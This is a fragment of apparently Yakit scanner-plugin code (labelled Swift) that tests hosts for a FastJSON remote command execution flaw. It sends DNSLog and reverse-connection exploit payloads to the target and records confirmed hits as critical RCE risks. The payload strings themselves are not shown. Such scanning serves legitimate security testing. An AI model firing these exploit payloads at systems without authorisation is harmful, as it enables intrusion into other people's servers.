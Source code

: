```Swift
            return false
        }
        for _,dnslogPayload = range dnslogPayloads{
            if testPayload(genPayload(dnslogPayload,domain)){
                riskLevel = "middle"
                for _,payloadRaw = range nextPayload{
                    if testPayload(genPayload(payloadRaw,reverseConnTarget)){
                        riskLevel = "critical"
                        return true
                    }
                }
                return true
            }
        }
        for _,payloadRaw = range highVersionPayload{
            if testPayload(genPayload(payloadRaw,reverseConnTarget)){
                riskLevel = "critical"
                return true
            }
        }
        return false
    }
    
    if checkVul(host,port){
        yakit_output(sprintf("FastJson Found! %v", addr))
        
        risk.NewRisk(
            addr, risk.payload(str.Join(payloadRes, "\r\n")),
            risk.type("rce"), risk.level(riskLevel),
            risk.title(sprintf("FastJSON RCE via DNSLog: %v", addr)),
            risk.titleVerbose(sprintf("FastJSON 远程命令执行(DNSLog): %v", addr)),
            risk.details({
                "request": fuzzInfo.RequestRaw,
                "response": fuzzInfo.ResponseRaw,
                "token": token,
                "domain": domain,
            }),
            risk.token(token),
        )
    }else{
        yakit_output(sprintf("Target: %s is invulnerable", host))
    }
    
}
```

